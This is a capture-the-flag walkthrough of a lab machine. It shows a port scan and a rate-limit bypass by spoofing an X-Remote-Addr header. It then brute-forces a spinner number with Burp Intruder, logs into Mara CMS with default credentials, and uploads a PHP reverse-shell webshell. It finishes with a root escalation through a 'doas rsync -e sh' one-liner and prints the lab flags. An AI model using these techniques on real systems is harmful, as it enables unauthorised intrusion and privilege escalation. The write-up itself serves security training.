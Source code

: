 # writeups

```
8085/tcp  open     http             syn-ack     Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS POST HEAD
|_http-title: Spinner
22/tcp    open     ssh              syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bda4a3ae66681d74e1c06aeb2b9bf333 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
|   256 9adb73790c72be051a8673dcac6d7aef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
|   256 648d5c79dee1f73f087cebb7b324641f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
30/tcp    filtered unknown          no-response
80/tcp    open     http             syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Susta
```

I go on the 8085, I found a spinner game, but when i'm looking a little 
closer nikto the told me

```
+ /: Uncommon header 'x-ratelimit-remaining' found, with contents: 8.
+ /: Uncommon header 'x-ratelimit-reset' found, with contents: 1680816879.
+ /: Uncommon header 'x-ratelimit-limit' found, with contents: 10.
```
then I go and look for xrateLimit, and I see we can bypass rate limit(header/captcha) 
it with various techniques like this one for header `X-Remote-Addr : IP`

### resource : https://infosecwriteups.com/bypassing-rate-limit-like-a-pro-5f3e40250d3c


so now I'll just choose copy/paste that in the client req, and after that
try to fuzz the spinner just to find the right number, it looks like that the
request in the intruder of burpsuite where I use the payload sniper-number/1

```
POST /home HTTP/1.1
Host: 10.10.199.187:8085
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://10.10.199.187:8085
Connection: close
Referer: http://10.10.199.187:8085/home
Upgrade-Insecure-Requests: 1
X-Remote-Addr: 127.0.0.1

number=§890909009§
```
we know that the number are 5 length, so in the payload set 10000,99999 so like that we
cover every numbers, it'll be easy for us the find the right one, but it takes me so much
time with burp I passed away this step, and I after I found the right number I got the path

`path: /YouGotTh3P@th` 
but the path it's for the 80 port, not the 8085 spiner, ok  then we arrived on the CMS, 
the name is *Mara CMS*, and the version *7.2*( about page).

 
=== dir listing ===

```
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 14021]
/about.php            (Status: 200) [Size: 8727]
/contact.php          (Status: 200) [Size: 7728]
/blog                 (Status: 301) [Size: 327] [--> http://10.10.199.187/YouGotTh3P@th/blog/]
/img                  (Status: 301) [Size: 326] [--> http://10.10.199.187/YouGotTh3P@th/img/]
/sitemap.php          (Status: 200) [Size: 1446]
/gallery.php          (Status: 500) [Size: 0]
/.php                 (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 326] [--> http://10.10.199.187/YouGotTh3P@th/css/]
/template             (Status: 301) [Size: 331] [--> http://10.10.199.187/YouGotTh3P@th/template/]
/log                  (Status: 301) [Size: 326] [--> http://10.10.199.187/YouGotTh3P@th/log/]
/theme                (Status: 301) [Size: 328] [--> http://10.10.199.187/YouGotTh3P@th/theme/]
```
maybe the /log can have some interesting infos, le'ts see. after a while I see that various .txt file
where each of them said something, like dirs (`preview.php, lorem.php`) and also `User : admin`, so in 
the lorem.php I saw `Log in with admin and changeme to try the editor.` that seems some creds, I click in
the admin link right in this previous text and I got the login page, and I use the creds and I was connected
like admin even if before that my browser notif me smthing about the creds, but nvermind.



Guess what? I found an 7.5 exploit RCE, maybe he could work on this one too, the 1st step is navigte to
this dir

`http://10.10.199.187/YouGotTh3P@th/codebase/dir.php?type=filenew`
where i am suposed to upload a file like a webshell, so I have this message

```
OK: php-reverse.php uploaded.
Files saved to: /var/www/html/YouGotTh3P@th/img
```
yes the webshell works, now priv escal to the kiran user, and after to root. the problem 
I couldnt read user.txt so I back to var/www/ and I found a backups on /var/ into this 
dir I found some interesting file, but I still couldnt read them expect the first one
called `.bak.passwd`, after that  i got the kiran creds

`kiran:x:1002:1002:trythispasswordforuserkiran:/home/kiran:`, the flag `6b18f161b4de63b5f72577c737b7ebc8`
and now let's go for root flag, so the hint said 'we dont always need sudo', so we'll 
look for sudo alternatives on googlem and I found the best sudo alternatives

```
    pkexec. 
    doas. ...
    su. ...
    dzdo.
```
so let's try one of them especially doas, beacuse pkexec ask for root password, so le'ts 
go on GTFObins to see if they have some payload to help us got the root.

I check the doas.conf with the command `whereis doas.conf` and I found

```
cat /usr/local/etc/doas.conf
 permit nopass kiran as root cmd rsync
```
that mean rsync command can execute like root without any problem, let's see.
I found that
`rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` let's paste it and see but
don't forget to add `doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`, and
here we go the root.

`afbb1696a893f35984163021d03f6095`  
